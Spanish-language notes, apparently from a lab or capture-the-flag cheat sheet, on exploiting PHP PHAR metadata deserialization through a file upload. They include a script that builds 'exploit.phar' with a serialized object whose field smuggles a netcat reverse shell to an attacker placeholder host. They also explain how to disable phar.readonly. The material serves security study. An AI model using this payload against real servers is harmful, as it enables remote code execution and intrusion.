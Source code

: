 ### INFO

- PHAR es una extensión de PHP.
- Permite guardar una aplicación entera PHP dentro de un archivo.
- Es similar a los JAR de java.
- Se acceden a los archivos dentro del mismo usando el wrapper phar://archivo

### Explotación

- Los phar tienen muchas propiedades, entre ellas la que nos es más importante es la metadata.
- Según la documentación de PHP (https://www.php.net/manual/en/phar.getmetadata.php) toda variable suceptible de ser serializada califica como metadata.
- Hasta php 8.0 toda metadata es deserializada de manera automática cuando se parsea un phar.
- Parsear un phar consta de llamar al archivo con el wrapper phar://
- Esto funciona incluso cuando los archivos son subidos con otras extensiones como JPG.


A modo de ejemplo, supongamos que encontramos un file upload, podríamos generar un phar con el siguiente procedimiento:
1) Creamos un archivo .php con el siguiente código:

    <?php
    include('UserSettings.php');
    
    $phar = new Phar("exploit.phar");
    
    $phar->startBuffering();
    
    $phar->addFromString('0', '');
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata(new \App\Helpers\UserSettings('"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', 'attacker@htbank.com', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg'));
    
    $phar->stopBuffering();


  2) Lo ejecutamos y este nos va a crear el archivo exploit.phar
#####  Si tenemos el siguiente error:
    PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "exploit.phar" disabled by the php.ini setting phar.readonly in XXXXX
Stack trace:
#0 XXXXX: Phar->__construct()
#1 {main}
  thrown in XXXXX on line XX

##### Podemos solucionarlo cambiando la propiedad phar.readonly = On a Off dentro del archivo:
    /etc/php/<php version>/cli/php.ini

